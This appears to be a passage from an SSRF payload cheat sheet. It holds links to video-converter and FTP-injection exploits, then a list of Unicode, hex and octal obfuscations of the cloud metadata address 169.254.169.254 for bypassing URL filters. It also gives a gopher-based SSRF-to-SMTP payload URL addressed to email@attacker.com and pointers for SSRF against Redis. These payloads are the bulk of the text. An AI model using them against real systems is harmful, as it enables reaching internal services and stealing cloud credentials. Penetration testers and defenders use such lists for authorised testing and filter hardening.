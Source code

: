 https://github.com/neex/ffmpeg-avi-m3u-xbin

https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf

https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/edit#slide=id.g22371f2702_0_15

iframe - SSRF with html iframe + URL bypass
Live demo:
http://ssrf.localdomain.pw/iframe/?proto=http&ip=127.0.0.1&port=80&url=/

Abusing Enclosed Alphanumerics
http://169。254。169。254/

http://169｡254｡169｡254/

http://⑯⑨。②⑤④。⑯⑨｡②⑤④/

http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/

http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/

http://②⑧⑤②⓪③⑨①⑥⑥:80/

http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/

http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥:80/

http://⓪⓪②⑤①｡⓪⓪⓪③⑦⑥｡⓪⓪⓪⓪②⑤①｡⓪⓪⓪⓪⓪③⑦⑥:80/

http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]:80/

http://[::ⓕⓕⓕⓕ:①⑥⑨。②⑤④。⑯⑨。②⑤④]:80/

http://⓪ⓧⓐ⑨。⓪③⑦⑥。④③⑤①⑧:80/

http://⓪ⓧⓐ⑨｡⑯⑥⑧⑨⑥⑥②:80/

http://⓪⓪②⑤①。⑯⑥⑧⑨⑥⑥②:80/

http://⓪⓪②⑤①｡⓪ⓧⓕⓔ｡④③⑤①⑧:80/

commonly-open-ports.txt - list of commonly open ports
SSRF2SMTP
https://ssrf.localdomain.pw/ssrf2smtp/?proto=gopher&ip=0&port=25&domain=domain.com&to=email@attacker.com&code=301

Java/Python FTP Injections Allow for Firewall Bypass
http://webcache.googleusercontent.com/search?q=cache:http://blog.blindspotsecurity.com/2017/02/advisory-javapython-ftp-injections.html

https://github.com/ecbftw/poc/blob/master/java-python-ftp-injection/ftp-injection-server.py

http://webcache.googleusercontent.com/search?q=cache:https://shiftordie.de/blog/2017/02/18/smtp-over-xxe/

SSRF + Gopher + Redis
http://webcache.googleusercontent.com/search?q=cache:http://vinc.top/2016/11/24/%E3%80%90ssrf%E3%80%91ssrfgopher%E6%90%9E%E5%AE%9A%E5%86%85%E7%BD%91%E6%9C%AA%E6%8E%88%E6%9D%83redis/

https://webcache.googleusercontent.com/search?q=cache:http://antirez.com/news/96
